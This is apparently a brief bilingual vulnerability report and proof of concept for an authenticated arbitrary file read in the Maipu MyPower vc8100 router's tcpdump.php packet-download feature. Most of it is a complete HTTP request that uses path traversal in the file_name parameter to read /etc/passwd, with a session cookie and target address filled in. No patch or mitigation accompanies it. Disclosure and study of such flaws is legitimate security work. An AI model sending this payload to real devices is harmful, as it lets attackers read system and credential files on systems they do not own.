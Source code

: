 MyPower vc8100 ( 版本: V100R001C00B030)

The product of Maipu Communication Technology Co., Ltd.: MyPower vc8100 (version: V100R001C00B030), there is an arbitrary file reading vulnerability in the background, so you need to log in to the system before you exploit it, and use it at the function of grabbing packet files.

迈普通信技术股份有限公司的产品：MyPower vc8100 ( 版本: V100R001C00B030) 后台存在任意文件读取漏洞，利用前需要登陆系统，在抓取数据包文件功能处进行利用.

![](./1.png)

![image-20240618151340033](./3.png)

Program path: / app/tcpdump/tcpdump.php

```
GET /app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a&a=download&file_name=../../../../../../../../../../etc/passwd HTTP/1.1
Host: 28.82.7.20
Cookie: PHPSESSID=dd9i76lp6hl9oi0ri833mv3uu2
Sec-Ch-Ua: "Chromium";v="107", "Not=A?Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://28.82.7.20/app/tcpdump/tcpdump.php?menu_uuid=02793c32-813b-4417-8201-5d5455c6c23a
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![2](https://oss.wencha.cfd/img/20240618151322.png)
